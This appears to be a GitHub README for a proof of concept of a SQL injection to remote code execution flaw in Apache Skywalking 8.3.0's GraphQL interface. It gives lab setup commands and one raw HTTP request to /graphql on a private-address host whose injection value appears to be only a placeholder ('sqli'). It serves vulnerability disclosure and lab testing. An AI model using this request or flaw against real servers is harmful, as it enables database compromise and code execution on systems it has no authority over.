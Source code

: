 # POC_Apache_Skywalking-8.3.0_SQL_Injection_to_RCE
Application performance monitor tool for distributed systems, especially designed for microservices, cloud native and container-based (Docker, Kubernetes, Mesos) architectures.

In GraphQL interfaces of Apache Skywalking 8.3.0 and previous, there is a H2 Database SQL injection vulnerability.

# Vulnerability environment
Let's install Apache Skywalking 8.3.0 using the following commands.<br>
# Prerequisites
Java Development Kit (JDK): Apache Skywalking requires Java to run. Make sure you have Java 8 or later installed on your system
```bash
sudo apt update && sudo apt install openjdk-11-jdk -y
```
Set Environment Variables
```bash 
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64
```
# Download Apache Skywalking 8.3.0
```bash
wget https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-8.3.0.tar.gz
```
Extract the downloaded archive
```bash
tar -zxvf apache-skywalking-apm-8.3.0.tar.gz
```
Start Apache Skywalking
```bash
cd apache-skywalking-apm-bin/bin
./startup.sh
```
After the environment is started, visit http://your-ip:8080 to view the Skywalking page.
# POC
The HTTP request of this GraphQL query is
```bash
POST /graphql HTTP/1.1
Host: 192.168.1.12:8080
Content-Length: 405
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.1.12:8080
Referer: http://192.168.1.12:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```
# References: https://youtu.be/CtkhTjB95Z0












